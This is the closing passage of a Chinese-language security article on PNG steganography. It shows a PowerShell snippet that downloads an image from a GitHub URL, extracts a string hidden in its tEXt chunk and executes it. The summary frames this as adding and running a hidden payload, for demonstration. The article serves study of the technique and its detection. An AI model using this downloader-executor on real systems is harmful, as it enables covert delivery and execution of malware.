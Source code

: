 
### 2、powershell

```
$url = 'https://raw.githubusercontent.com/3gstudent/PNG-Steganography/master/new.png'
$request = New-Object System.Net.WebCLient
$bytes = $request.DownloadString($url)
$x=$bytes.indexof("tEXt")
$y=$bytes.indexof("IEND")
$str=$bytes.Substring($x+4,$y-$x-12)
Start-Process -FilePath $str
```

**注:**
这里给出两种方法，仅作演示

## 0x08 小结
---
本文详细介绍分析了PNG文件的格式，编写程序实现以下功能：
- 自动解析PNG文件格式，辅助查找其中的隐藏内容
- 添加Payload
- 下载PNG图片解析并执行payload



---
